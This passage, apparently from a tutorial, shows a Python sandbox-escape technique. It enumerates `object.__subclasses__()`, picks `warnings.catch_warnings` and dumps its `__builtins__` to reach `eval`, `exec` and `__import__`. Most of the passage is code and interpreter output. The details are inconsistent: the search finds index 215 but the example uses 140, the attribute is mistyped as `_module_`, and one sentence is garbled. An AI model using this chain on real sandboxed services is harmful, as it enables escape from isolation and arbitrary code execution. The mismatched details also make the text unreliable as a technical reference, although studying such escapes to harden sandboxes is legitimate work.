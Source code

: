 ```Python
for i in range(len(x)):print(i, x[i].__name__)
```

```
...
0 type
1 weakref
2 weakcallableproxy
3 weakproxy
4 int
5 bytearray
6 bytes
7 list
8 NoneType
<SNIP>

>>> def searchfunc(name):
...     x = s.__class__.mro()[1].__subclasses__()
...     for i in range(len(x)):
...             fn = x[i].__name__
...             if fn.find(name) > -1:
...                     print(i, fn)
...
>>> searchfunc('warning')

215 catch_warnings
```
Why are we searching for `warning` you may ask. We chose this class because it imports Python's [sys module](https://github.com/python/cpython/blob/3.9/Lib/warnings.py#L3) , and from `sys`, the `os` module can be reached. More precisely, os modules are all from `warnings.catch_`.

In example: `140 catch_warnings`
#### Enumerate the builtins from this class
```Python
y = x[140]
y
```

```
<class 'warnings.catch_warnings'>
```

```Python
y()._module_.__builtins__
```

```
{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>,
 <SNIP>
```
